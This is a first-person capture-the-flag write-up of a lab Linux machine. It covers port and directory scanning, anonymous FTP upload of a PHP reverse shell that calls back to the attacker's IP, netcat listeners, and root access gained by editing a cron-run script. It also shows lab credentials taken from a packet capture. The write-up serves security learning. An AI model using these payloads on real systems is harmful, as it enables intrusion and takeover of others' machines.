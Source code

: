 1) Initial Recon

I started with a full port scan using Nmap:

nmap -sCV -p- -T4 -oA nmap_initial 10.201.102.67

The scan revealed three open ports:

21/tcp FTP (anonymous login allowed, writable directory)

22/tcp SSH

80/tcp HTTP (Apache)

2) Web Directory Enumeration

I ran Gobuster to discover hidden directories:

gobuster dir -u http://10.201.102.67 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_spicy.txt

The scan revealed /files which mirrored the FTP directory.

3) FTP Access and File Upload

Using anonymous credentials, I logged into FTP:

ftp 10.201.102.67
Username: anonymous
Password: anonymous
cd ftp

I verified that the directory was writable and uploaded a PHP reverse shell:

cat > shell.php <<'EOF'
<?php
set_time_limit(0);
$ip = '10.201.87.82';
$port = 5555;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock,1=>$sock,2=>$sock), $pipes);
?>
EOF


curl -T shell.php ftp://10.201.102.67/ftp/ --user anonymous:anonymous -v
4) Getting a Reverse Shell

I set up a Netcat listener on my Kali machine:

nc -lnvp 5555

Then, I triggered the shell via the browser:

curl http://10.201.102.67/files/ftp/shell.php -v

Once connected, I stabilized the shell:

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color

I confirmed my session:

whoami        # www-data
id             # uid=33(www-data)
pwd            # /var/www/html/files/ftp
hostname       # startup
uname -a       # Linux startup 4.4.0-190-generic x86_64
ls -la         # shows shell.php and permissions
5) Exploring the FTP Directory

I found two files:

notice.txt (irrelevant content)

important.jpg (contains embedded data, but no further action needed for this session)

The main goal here was to verify write access and confirm remote command execution.

6) Privilege Escalation (Root Access)

From the reverse shell as www-data, I enumerated directories and permissions. I identified that a root-owned script (planner.sh) executes print.sh, which I could modify.

I inserted a root reverse shell payload into print.sh and waited for planner.sh to execute it automatically (scheduled by cron). I had a second Netcat listener ready:

nc -lnvp 5555

Within a minute, I got a root shell:

whoami        # root
cat /root/root.txt
Output: THM{f96...........}
7) Analyzing Credentials from Network Capture

I also found a suspicious packet capture in the directories. I analyzed it locally using tshark and strings to extract credentials:

strings suspicious.pcapng | egrep -i "user|login|username|password|pass|lennie" -n

This revealed:

Username: lennie
Password: c4ntg3t3n0ughp1c3

These credentials were later used to SSH into the target.

Conclusion

Through FTP upload and web exploitation, I gained initial access as www-data, then escalated to root by abusing a root-owned script. I successfully retrieved both the user and root flags, completing the challenge. This project reinforced practical skills in:

Nmap enumeration

Directory enumeration (Gobuster)

FTP exploitation and file uploads

Reverse shell creation and stabilization

Privilege escalation via script manipulation

Extracting credentials from network captures (tshark/strings)

All steps were performed hands-on by me, and the project demonstrates a full end-to-end penetration test workflow on a Linux VM.
